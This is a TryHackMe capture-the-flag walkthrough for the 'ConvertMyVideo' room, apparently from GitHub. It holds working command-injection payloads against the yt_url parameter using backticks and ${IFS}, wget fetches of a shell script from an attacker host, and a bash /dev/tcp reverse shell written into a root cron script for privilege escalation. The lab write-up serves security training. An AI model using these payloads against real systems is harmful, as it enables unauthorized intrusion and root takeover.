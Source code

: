 # TryHackMe ConvertMyVideo Walkthrough

## **1. Initial Reconnaissance**
### **Nmap Scan**
We start by scanning the target `10.10.206.3` with an aggressive scan to detect open ports and services:
```bash
nmap -sC -sV -p- -T4 -o nmap_res 10.10.206.3
```
**Results:**
- **Port 22:** OpenSSH 7.6p1 (Ubuntu 4ubuntu0.3)
- **Port 80:** Apache HTTPD 2.4.29 (Ubuntu)

### **Directory Enumeration**
Using `dirsearch` to find accessible directories:
```bash
python3 dirsearch.py -u http://10.10.206.3:80
```
**Notable Findings:**
- `/admin/` (Requires Authentication)
- `/admin/_logs/` (Contains access and error logs)
- `/admin/upload.php` (Potential file upload vulnerability)
- `/tmp/` (Restricted but accessible)

## **2. Exploiting Command Injection via `yt_url`**
### **Identifying Vulnerability**
The website allows users to enter a YouTube URL, which is then passed to `youtube-dl`. By modifying this parameter, we can execute arbitrary commands.

Intercepting a request in Burp Suite:
```http
POST / HTTP/1.1
Host: 10.10.206.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

yt_url=https://www.youtube.com/watch?v=xyz
```

**Injecting Commands:**
The trick is to use **backticks (`) to execute commands first.**
```bash
yt_url=`id`
```
**Finding Internal Field Separator (`IFS`)**
The system **does not like spaces**, so we use `${IFS}`:
```bash
yt_url=`ls${IFS}-la`
```
**URL Encoded:**
```bash
yt_url=%60ls%24%7BIFS%7D-la%60
```

## **3. Gaining a Reverse Shell**
### **Step 1: Download a Shell Script**
Using `wget` to fetch a shell script from our attacking machine:
```bash
yt_url=`wget${IFS}http://10.8.14.7:8081/shell.sh`
```

### **Step 2: Change Permissions**
By default, execution permission is restricted. We set **777 permissions**:
```bash
yt_url=`chmod${IFS}777${IFS}shell.sh`
```

### **Step 3: Execute Shell Script**
```bash
yt_url=`sh${IFS}shell.sh`
```

### **Step 4: Start Listener**
On our local machine, start a listener:
```bash
nc -lvnp 9001
```
Once executed, we should receive a reverse shell!

## **4. Privilege Escalation**
### **Step 1: Enumerate Running Processes**
Checking for scheduled tasks:
```bash
ps aux
```
**Findings:**
- `cron` is running as **root**.

### **Step 2: Spy on Cron Jobs**
Using [`pspy`](https://github.com/DominicBreuker/pspy), a tool for monitoring scheduled jobs:
```bash
wget http://10.8.14.7:8081/pspy64
chmod +x pspy64
./pspy64
```
Identified `/tmp/clean.sh` running as root.

### **Step 3: Overwrite `clean.sh` with Reverse Shell**
```bash
echo "bash -i >& /dev/tcp/10.8.14.7/9091 0>&1" > /tmp/clean.sh
chmod 777 /tmp/clean.sh
```

### **Step 4: Start Another Listener**
```bash
nc -lvnp 9091
```
Once `clean.sh` executes, we receive a **root shell**! 🎉

## **5. Summary**
- **Recon:** Found open ports and sensitive directories.
- **Exploited Command Injection:** Used backticks and `${IFS}` to execute commands.
- **Reverse Shell:** Used `wget` to download a script and executed it.
- **Privilege Escalation:** Found and exploited a cron job running as root.
- **Root Access:** Replaced `clean.sh` with a reverse shell and gained full control.

🚀 **Challenge Complete!**

